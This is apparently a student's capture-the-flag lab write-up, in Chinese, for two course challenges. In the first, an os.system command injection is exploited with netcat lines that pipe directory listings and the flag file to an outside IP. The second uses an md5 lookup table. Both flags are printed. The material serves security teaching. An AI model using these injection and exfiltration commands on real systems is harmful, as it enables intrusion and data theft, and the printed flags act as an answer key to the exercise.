



# tool Writeup

- 學號：`109550206`

## web-pratice

- Flag：`flag{w3b-pr4CT1c3_s0_345y}`

### 解題流程與思路
觀察其 Server 可以看到 `os.system(body)` 因此只須於 HTTP Request 的內容嵌入 shell command 設法拿到 flag 即可。

**解題過程：**
1. 撰寫一個 TCP Client 發送一個 HTTP Request 於 body 中包含 `ls -lR | nc 140.113.235.151 10001` 即可得到該機器所有檔案內容。
2. 透過 less 找一下發現其很單純放在 /home/web/flag 下。
3. 將 body 換成 `cat /home/web/flag | nc 140.113.235.151 10001` 即可得到 FLAG。

**取得 flag 的畫面：**

## pwntools-practice

- Flag：`flag{pPppPpPPwwWWwVVvvwN700ls}`

### 解題流程與思路
可以看到連上 Server 要先解 md5。解法也很單純慢慢找所有可能性即可，接著又看到第 3 個遊戲只要 md5 解得夠快就可以拿到 FLAG。
**解題過程：**
1. 由於 md5 的所有可能性不多，因此先建表算出所有可能性的 md5 值。
2. 收到解 md5 需求就查表，可以超快解完，即得到 FLAG。

**取得 flag 的畫面：**

